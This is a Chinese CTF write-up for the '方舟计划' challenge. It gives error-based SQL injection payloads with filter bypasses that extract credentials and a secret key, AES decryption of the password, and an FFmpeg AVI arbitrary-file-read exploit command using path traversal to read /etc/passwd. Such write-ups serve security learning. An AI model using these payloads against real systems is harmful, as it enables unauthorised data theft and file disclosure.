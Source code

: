 ## 方舟计划 ##

本来觉得非常有意思的一题，可能是除了非预期，导致3个队伍直接做出来了，然后主办方偷偷改题了，搞得人很难受，我们先一步一步来。

首先注册的电话号码地方有注入，但是有过滤

语句大概是
insert into users (username,password,phone) values ('123' , '123', 'test')

然后可以显错，所以可以注
```
username=test&phone=1%27and%20extractvalue%281%2C%20concat%280x5c%2C%28%20select%20%2a%20%2f%2a%2150000from%2a%2f%28select%20name%20%2f%2a%2150000from%2a%2f%20note.user%20where%20id%20%3D1%29x%29%29%29%29%23&password=1&repassword=1

用户名
fangzh0u

username=test&phone=1%27and%20extractvalue%281%2C%20concat%280x5c%2C%28%20select%20%2a%20%2f%2a%2150000from%2a%2f%28select%20password%20%2f%2a%2150000from%2a%2f%20note.user%20where%20name%3D%27ddog%27%29x%29%29%29%29%23&password=1&repassword=1

密码同理\L8qyd7Vk/BIUVSeBfGshSQ==
```

注出来的密码是乱码，很难受，所以看看表里还有没有别的东西。

发现一个config表
config里id，secrectkey
取到secrectkey  BjDjgKE8CEk5hA9z9FDH7otvGntinomp
```
key = "BjDjgKE8CEk5hA9z9FDH7otvGntinomp"
a = AES.new(base64.b64decode(key))
a.decrypt(base64.b64decode(c))
'tencent123\x00\x00\x00\x00\x00\x00'
```
这下账号和密码都有了，那么就登陆上去看看，是一个上传avi的地方，过滤比较严格，传上去的视频会转md4,当时第一反应就是那个ffmpeg任意文件读取的漏洞。

翻了一些文章就赛宁这个最完整，seebug也有一篇360的分析，也可以看看。

[http://blog.cyberpeace.cn/FFmpeg/](http://blog.cyberpeace.cn/FFmpeg/)

```
exp：
https://github.com/neex/ffmpeg-avi-m3u-xbin
```

开始读/etc/passwd被过滤了，稍微研究了一下，好像是只过滤了这个，我们甚至还可以读etc/hosts，那么我们通过跨目录来绕过判断。

```
python3 gen_xbin_avi.py file:///etc/init.d/../passwd 3.avi   
```

![image.png-275.5kB][2]
找到了当前用户，猜测这里有flag

开始读这个目录没东西，突然有flag了


  [1]: http://static.zybuluo.com/LoRexxar/hml88kgi4o6fedxcf2b310a2/image.png
  [2]: http://static.zybuluo.com/LoRexxar/ovwsqpqw3m7woxybr5n1rx0a/image.png
  [3]: http://static.zybuluo.com/LoRexxar/fezpkgin6jwtnpw28y6ep02b/image.png
  [4]: http://static.zybuluo.com/LoRexxar/tr0z404vlz8pe1622z4uxpm5/image.png